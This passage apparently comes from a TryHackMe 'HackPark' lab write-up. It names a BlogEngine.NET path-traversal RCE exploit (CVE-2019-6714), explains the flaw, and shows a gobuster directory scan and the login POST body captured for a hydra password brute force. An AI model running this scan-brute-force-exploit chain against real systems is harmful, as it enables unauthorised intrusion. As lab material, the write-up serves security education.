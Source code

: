 ```console
┌──(kali㉿kali)-[~/Documents/tthm/hackpark]
└─$ cat `locate aspx/webapps/46353.cs`
# Exploit Title: BlogEngine.NET <= 3.3.6 Directory Traversal RCE
...snip...
# Version: <= 3.3.6
# Tested on: Windows 2016 Standard / IIS 10.0
# CVE : CVE-2019-6714

/*
 * CVE-2019-6714
 *
 * Path traversal vulnerability leading to remote code execution.  This
 * vulnerability affects BlogEngine.NET versions 3.3.6 and below. 
...snip...
```

The vulnerability is based on a faulty implementation of a theme override feature in BlogEngine versions <= 3.3.6. A theme can be overridden by providing an arbitrary path to the `?theme` query parameter ; if an attacker has the authorization required to upload an appropriately wrapped payload to the BlogEngine dashboard, a known path can be provided to `?theme` to execute the payload.

As the vulnerability requires authorization to upload the payload, we perform a gobuster scan using dirbuster's common.txt word list to find a login page, admin dashboard, etc : 

```console
┌──(kali㉿kali)-[~/Documents/tthm/hackpark]
└─$ gobuster dir -u $IP -w /usr/share/dirb/wordlists/common.txt -o gobuster.out
...snip...
===============================================================
/account              (Status: 301) [Size: 152] [--> http://10.10.172.214/account/]
/admin                (Status: 302) [Size: 173] [--> http://10.10.172.214/Account/login.aspx?ReturnURL=/admin]
/Admin                (Status: 302) [Size: 173] [--> http://10.10.172.214/Account/login.aspx?ReturnURL=/Admin]
/ADMIN                (Status: 302) [Size: 173] [--> http://10.10.172.214/Account/login.aspx?ReturnURL=/ADMIN]
...snip...
```

Navigating to `/Account/login.aspx` reveals a BlogEngine Account Login page.

## 2. Login bruteforce - hydra

While the gobuster scan revealed a number of other endpoints, none of these endpoints provided information on possible credentials. [BlogEngine's docs](https://blogengine.io/support/get-started/) give default credentials of `admin:admin`, but this does not work on the login page. We will gamble that the user changed the password but not the username, and attempt to bruteforce the password using hydra and the rockyou wordlist. To prepare the attack, we capture the body of the POST request made by the login form (you can do this in Burpsuite or any other proxy, but it's easiest just to copy it from the networking tab in devtools) :

```
__VIEWSTATE=quA%2BfixjnRZyooqN5mdBRNxn8Q0HJRLI%2Fme3ncga7GYibs1Kn82djcxVUC0xVctAp%2Bx96ueEBMjabvAbIEUXPZCnUOEiFyTjvTRobFro47FcvDnyxiDfD%2Bll5WgMv1T9rfWmf3NURxEIbuuXWeJB2PH35lQjFkxO3cxzWBih%2F3lYuSp3&__EVENTVALIDATION=sk%2BPFMIkK%2BETkL%2BXh%2FGhKa3D%2BGrGyaSjxQsCF2f0J6YvwZ1VaalcDJWgNOVFvnOjSuwxqzI%2BrapYubD%2BEaSqvhGEAUyGUrA%2FYI1ySSQCw2HKXKSi%2B2AJVSaubqI5ysoa%2BzbYS4pzr5j%2FKOumyhiLkaghWeJV6Pku%2Ftwc2flhEajZ%2B6%2F0&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=main&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in
```
